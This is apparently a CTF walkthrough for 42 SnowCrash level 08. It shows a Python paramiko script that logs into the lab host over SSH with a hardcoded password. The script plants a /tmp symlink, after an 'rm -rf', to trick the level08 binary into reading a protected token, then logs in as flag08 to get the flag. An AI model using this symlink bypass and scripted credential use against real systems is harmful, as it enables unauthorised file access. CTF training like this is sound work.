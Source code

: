 ```yaml
---
title: 42 SnowCrash Level08 - Walkthrough 🤖
tags:
  - ctf
  - exploit
  - python
  - snowcrash
categories:
  - ctfs
  - 42project
date: 2024-05-18 15:38:03
---
```


![snowcrash](/images/snowcrash.png)

### Introduction
In level 08, we exploit a vulnerable program `level08` to obtain the flag by leveraging a Python script that utilizes SSH to execute commands.

### Steps:

1. **Understanding Exploit Python Script:**
   We examine the provided Python script:

   ```python
   #!/usr/bin/python3

   try:
       from paramiko import SSHClient, AutoAddPolicy
       from time import sleep
   except ImportError as err:
       print(err)

   def get_token():
       client = SSHClient()
       client.set_missing_host_key_policy(AutoAddPolicy())
       client.connect('10.13.249.103', username='level08', password='fiumuikeil55xe9cu4dood66h', port=4242)
       sleep(1)
       stdin, stdout, stderr = client.exec_command('rm -rf /tmp/exploit && ln -s $(pwd)/token /tmp/exploit && ./level08 /tmp/exploit')
       output = stdout.read()
       return (output.decode('utf-8').split('\n')[0])

   def get_flag(token):
       client = SSHClient()
       client.set_missing_host_key_policy(AutoAddPolicy())
       client.connect('10.13.249.103', username='flag08', password=token, port=4242)
       sleep(1)
       stdin, stdout, stderr = client.exec_command('getflag')
       output = stdout.read()
       return (output.decode('utf-8').split('\n')[0])

   if __name__ == "__main__":
       token = get_token()

       print("[+] Humm the nunuts token... %s" % (token))
       print("[+] Flag08 : %s" % (get_flag(token)))
    ```

The script uses paramiko library to establish SSH connections. `get_token()` function connects to the `level08` user and creates a symbolic link `/tmp/exploit` to a file named `token`. It then executes `./level08 /tmp/exploit` to obtain the token. `get_flag()` function connects to the `flag08` user with the obtained token and retrieves the flag.

2. **Executing the Python Script**:
    We execute the Python script to retrieve the token and the flag:
    ```
    $ python3 exploit.py
    ```
    The script connects to the server, retrieves the token, and then uses it to connect as `flag08` and obtain the flag.

# Conclusion
By exploiting the vulnerability in the level08 program using the provided Python script, we successfully retrieved the flag for level 08.
